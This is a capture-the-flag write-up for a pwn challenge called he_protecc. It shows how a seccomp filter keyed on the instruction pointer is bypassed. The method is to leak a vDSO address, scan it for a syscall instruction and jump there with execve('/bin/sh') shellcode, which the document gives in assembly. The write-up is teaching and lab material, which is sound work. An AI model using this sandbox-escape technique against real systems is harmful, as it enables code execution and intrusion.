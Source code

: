 ```yaml
---
layout: ../../../layouts/BlogLayout.astro
title: "he_protecc: CornCTF 2025"
date: 2024-01-05
author: "ubik"
tags: ["pwn"] 
image: "./images/cover.png"
---
```



# he_protecc: CornCTF 2025

> **Solved by: Ubik**, **Writeup by: Ubik**

# Introduction

This is the first pwn challenge in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)` and get the shell. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](images/he_protecc-013.png)
## mmap my beloved

<Callout type="info">
**mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 
In our case the program needs a mmap region because we don't have an area that is writable and executable at the same time.
</Callout>

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use the `strace` command and read the instruction from there:

![](images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](images/he_protecc-014.webp)

The `prctl` call sets the **NO_NEW_PRIVS** flag, why?  This is a security measure to stop privilege escalation made by malformed seccomp filter, so we put it before every seccomp installation ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The next instruction, the syscall, installs a seccomp filter on the binary.

<Callout type="info">
As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.
</Callout>

So the questions becomes: What does this seccomp filter allow?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but that's not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  After the mmap regio, so this is why we can't execute a syscall in the shellcode :( 

But WAIT, what can we find after `0x500fff` but before `0x7fffffffffff`?

Let's run our debugger of choice and look at the mappings:

![](images/he_protecc-015.webp)

Using `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

<Callout type="info">
**vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))
</Callout>

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle one problem after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](images/he_protecc-017.webp)

## Assembly 

Now comes the *difficult* part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the first leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

We could zero out the 12 least significant bits to align the address to a page start, but in our case it doesn't matter.
Now let's scan the memory area for a syscall, remember that the opcode is `0x0F05` but we are in little-endian:

```asm
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases `r8` (pointer to `vdso` leak) and takes two bytes, it then checks if the bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, `r8` will point to a valid syscall instruction, and we can continue with setting the other registers for an execve call.

```asm
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8 // <-- jump to syscall outside our mmap area
```

and boom, we have a shell.

